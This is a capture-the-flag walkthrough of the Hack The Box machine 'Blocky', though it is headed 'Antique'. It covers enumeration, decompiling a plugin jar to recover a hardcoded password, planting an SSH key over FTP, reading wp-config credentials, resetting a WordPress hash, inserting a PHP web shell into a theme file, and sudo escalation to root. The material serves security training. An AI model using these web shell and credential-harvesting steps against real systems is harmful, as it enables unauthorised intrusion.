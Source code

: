 # Antique
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Nmap scan report for 10.10.10.37
Host is up (0.058s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Given the initial scan, let's dig deeper into port 80.  
let's enumerate directories and see if we discover something intresting.
```
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 299]
```
Now, here's a rabbit hole that we can easilly jump straight in.  
As we can see there is a wordpress installed on this server, we can try to exploit wordpress but there are tons of exploit available to try. there is a much easier way.  
Before jump into the rabbit hole, as a practice, make sure to enumerate everything.  
Anyway enumerating wordpress show a user "notch".
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
we can check if this user is also available for ssh login.  
To check this we can use the metasploit module ```scanner/ssh/ssh_enumusers``` and set the options as follows
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set username notch
username => notch
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.37:22 - SSH - Using malformed packet technique
[*] 10.10.10.37:22 - SSH - Starting scan
[+] 10.10.10.37:22 - SSH - User 'notch' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now, let's go now to the /plugins directory.  
Here we can find two .jar files hosted: "BlockyCore.jar" and "griefprevention-1.11.2-3.1.1.298.jar".  
.jar file are nothing else but archives, to extract this archive we can use zip command.  
when we extract archives we can se .class file.  
To decompile class files we can use ```jad``` (or ```jd-gui``` with the UI) and here we get the .jad file with the code in a readable format
## User
### Method 1 - Class File Decompile and Password Reuse
Using jad, we can decompile ```BlockyCore.class``` and get the .jad file by simply running:
```
jad BlockyCore.class
```
as we can see, after opening the jad file we can se the following lines:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
Now we can try to login as root/notch to the machine and see if we do get any luck.
```
[root@kali Blocky ]$ ssh $TARGET -l notch
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```
Now we got user.

### Method 2 - Wordpress Theme Exploitation and Password Seek in Configuration Files
Let's suppose now that, for some reason this credential does not work with the ssh service and we can somehow exploit the ftp service.  
Now we can try to login to ftp, create a .ssh/ directory and upload our public key into .ssh/authorized_keys and login using our certificate.   
In order to do this we can establish the followig ftp session:
```
[root@kali Blocky ]$ ftp $TARGET
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch                  
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
563 bytes sent in 0.00 secs (11.9315 MB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
now we can login into ssh.  
As a general rule, in penetration testing, code that connects to database contains connection parameter and in this parameter set we will most likely have credentials.  
so lets navigate to /var/www/html and grep for the keyword "pass"
```
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$ cat wp-config.php | grep DB_USER
define('DB_USER', 'wordpress');
```
As we can see we found the password for user wordpress.  
Let's dig deeper and see if we can get credentials for phpmyadmin.  
Finding credentials for mysql is quite important at this stage, because, if we do find credentials for root user, we can login to mysql cli and drop a shell as root using mysql as privilege escalation vector.  
Now let's navigate to ```/etc/phpmyadmin/```.  
We do not have permission for ```config-db.php``` file as it is owned by www-data. So, let's try to get a shell as user www-data.  
Now that we have user wordpress creds for the database, let's login to phpmyadmin using user wordpress and the disclosed password.  
Now we can navigate to wordpress database, find the ```wp_users``` table and create a new hash for user notch replacing the old one.  
Now we can login in wordpress using the user notch and the password used to generate the hash.  
Once we are logged in wordpress we can easilly obtain a shell by editing the theme files.  
If, for example, we go to Appearance > Editor > Theme Header, we can insert there a simple payload like : ```<?php system($_REQUEST['cmd']) ?>``` and obtain remote code execution and drop a shell as well.  
Once we are logged in as www-data we can read ```config-db.php```.  
As expected the file discloses credentials:
```
www-data@Blocky:/var/www/html$ cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
```
Now using this credentials we can try to escalate to another user and as we can see we can successfully escalate to "notch"
```
www-data@Blocky:/var/www/html$ su - notch
Password:
notch@Blocky:/var/www/html$
```

## Root
Now that we got user, first thing first let's check if we do have any sudo capability on this box:
```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Sudo asks for password, but as we are logged in using a password, we can provide the password and retrive sudo capabilities list.
Given the sudo permission, we can easilly escalate to root by simply doing:
```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~#
```
